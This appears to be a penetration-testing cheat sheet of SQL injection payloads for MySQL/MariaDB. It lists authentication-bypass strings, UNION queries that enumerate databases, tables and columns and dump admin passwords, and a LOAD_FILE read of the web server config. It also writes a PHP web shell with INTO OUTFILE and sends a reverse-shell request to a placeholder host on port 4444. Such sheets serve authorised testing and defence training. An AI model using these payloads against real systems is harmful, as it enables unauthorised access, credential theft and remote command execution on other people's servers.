# Pentest Web
## SQL Injection - MySQL/MariaDB
-> Bypass Authentication
```
' or 1=1 -- -
admin' -- -
' or 1=1 order by 2 -- -
' or 1=1 order by 1 desc -- - 
' or 1=1 limit 1,1 -- -
```

-> get number columns
```
-1 order by 3;#
```

-> get version
```
-1 union select 1,2,version();#
```

-> get database name
```
-1 union select 1,2,database();#
```

-> get table name
```
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<database_name>";#
```

-> get column name
``` 
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<database_name>" and table_name="<table_name>";#
```

-> dump
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
-1 union select 1,2, group_concat(<column_names>) from <database_name>.<table_name>;#
```


### Webshell via SQLI
-> view web server path  
```
LOAD_FILE('/etc/httpd/conf/httpd.conf')    
```

-> creating webshell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
```
MYSQL to RCE
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- //
http://192.168.xx.xx/tmp/webshell.php?cmd=id

reverse shell
GET /tmp/webshell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.xx.xx/4444+0>%261'
```
 